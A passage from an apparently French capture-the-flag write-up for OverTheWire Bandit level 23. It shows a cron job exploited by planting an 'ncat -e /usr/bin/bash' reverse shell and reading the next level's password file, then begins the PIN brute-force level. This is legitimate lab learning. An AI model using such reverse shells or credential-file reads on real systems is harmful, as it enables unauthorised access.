 ```console
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo || exit 1
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -rf ./$i
    fi
done

bandit23@bandit:~$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ ls
ls: cannot open directory '.': Permission denied
bandit23@bandit:/var/spool/bandit24/foo$ ls -ald .
drwxrwx-wx 3 root bandit24 4096 Apr 27 13:58 .
bandit23@bandit:/var/spool/bandit24/foo$ which bash
/usr/bin/bash
bandit23@bandit:/var/spool/bandit24/foo$ echo "ncat -e /usr/bin/bash 127.0.0.1 9999" > script.sh;chmod +x script.sh;ncat -l -p 9999 -v
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:42530.
id
uid=11024(bandit24) gid=11024(bandit24) groups=11024(bandit24)
cat /etc/bandit_pass/bandit24   
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

J'ai fait exécuter un reverse shell sur le port 9999.

## Level 24

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
> You do not need to create new connections each time
